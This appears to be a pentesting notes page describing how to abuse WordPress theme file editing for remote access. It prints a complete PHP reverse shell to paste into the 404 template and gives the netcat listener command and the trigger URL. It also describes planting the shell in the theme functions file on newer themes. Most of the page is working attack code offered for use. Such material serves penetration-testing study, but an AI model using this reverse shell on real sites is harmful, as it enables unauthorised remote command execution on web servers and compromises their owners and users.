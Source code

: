 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WordPress - Abuse Theme Configuration on templates

This works for version _twenty-twenty-one_ or less of the base _WordPress_ template. We can add malicious code to a page theme configuration, and this will allow us to get a reverse shell when activating the theme.

* From the administrator dashboard go to _Appearance>Edit File Editor_. On the _Select Theme to edit_ slider, select version _twenty-twenty-one_ or the one we are going to abuse. Go to the _404 Template_ tab and we will see a code like this:

{% code overflow="wrap" lineNumbers="true" %}
```php
<?php
/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
 *
 * @package WordPress
 * @subpackage Twenty_Twenty_One
 * @since Twenty Twenty-One 1.0
 */

// HERE GOES THE SCRIPT FOR REVERSE SHELL!!!!

get_header();
?>
...
```
{% endcode %}

***

* Put the content of this script in the space shown above

{% code title="phpRevShell.php" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '';  // Put your IP between the quotes
  $port = ;  // Put your port here
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }  
```
{% endcode %}

{% hint style="info" %}
Remember to specify the host machine IP and port on lines 6 and 7
{% endhint %}

***

* Click on the _Update File_ button, go to _Appearance>Themes,_ and activate the theme that has been modified. Then create a _netcat_ listener in our machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port #The port that has been specificated in the script
```
{% endcode %}

***

* Visit the site and search for a URL that does not exist. If we check our listener, we should have gained the Reverse Shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$URL/asddfasdf #This page doesn't exist and will give us the reverse shell
```
{% endcode %}

***

{% hint style="warning" %}
All this process can also be done on Templates version 2022 or higher. Instead of modifying the _404 Template,_ we will modify the _Theme Functions_ file. This will give us the shell every time we enter a page of the web but will break the site entirely
{% endhint %}
